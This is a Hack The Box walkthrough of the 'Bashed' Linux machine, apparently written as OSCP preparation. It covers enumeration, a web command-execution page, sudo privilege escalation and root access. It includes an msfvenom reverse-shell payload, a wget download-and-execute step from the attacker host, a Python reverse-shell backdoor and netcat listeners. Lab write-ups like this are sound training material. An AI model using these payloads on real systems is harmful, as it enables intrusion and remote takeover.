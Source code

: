 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

### Enumeration
Start with a full Nmap scan to identify open ports:
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
The results show only port **80 (HTTP)** is open.

### [HTTP](HTTP) Enumeration
Visiting the website reveals a PHP-based web application. To discover hidden paths:
```bash
gobuster dir --url "http://$IP" -w /usr/share/dirb/wordlists/small.txt
```
The `/dev/` directory contains accessible files — one allows command execution via the web.

Using this functionality, grab the user flag:
```bash
cat /home/arrexel/user.txt
```

### Privilege Escalation
Run `sudo -l` to identify available sudo privileges:
```bash
sudo -l
```
It reveals that we can run scripts as **scriptmanager** without a password.

List all files owned by **scriptmanager**:
```bash
find / -user scriptmanager -type f 2>/dev/null
```
A Python script in `/scripts/` is modifiable. We'll exploit it.

### Reverse Shell via ELF Payload
Generate a reverse shell payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f elf > exploit.elf
```
Serve it via Python:
```bash
python3 -m http.server 80
```
Download and execute it from the target:
```bash
cd /tmp
wget http://$YOUR_IP/exploit.elf
chmod +x exploit.elf
./exploit.elf
```
Start a listener:
```bash
nc -lvnp 9001
```
Once inside, stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
```

### Alternative Python Backdoor
Create `test.py`:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
Upload and execute it using the writable script.

Start another listener:
```bash
nc -lvnp 9002
```
This grants a shell as **root**.

### Root
Retrieve the root flag:
```bash
cat /root/root.txt
```

---

🎉 Congrats, you rooted **HTB: Bashed**!

